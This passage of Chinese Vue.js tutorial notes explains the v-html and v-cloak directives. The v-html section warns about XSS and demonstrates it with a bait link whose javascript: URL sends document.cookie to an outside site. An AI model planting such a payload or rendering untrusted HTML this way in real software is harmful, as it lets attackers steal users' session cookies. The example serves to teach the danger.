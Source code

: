 3.严重注意：v-html有安全性问题！！！！

* 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
* 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

![image-20220629121130193](https://i0.hdslb.com/bfs/album/7c1c82f65d6431c7332ea00ece8fb6f3a2e8ef9e.png)

### 1.3v-cloak 指令

**v-cloak指令（没有值）：**

* 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性。
* 使用`css`配合`v-cloak`可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
    [v-cloak]{
        display:none;
    }
</style>
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```
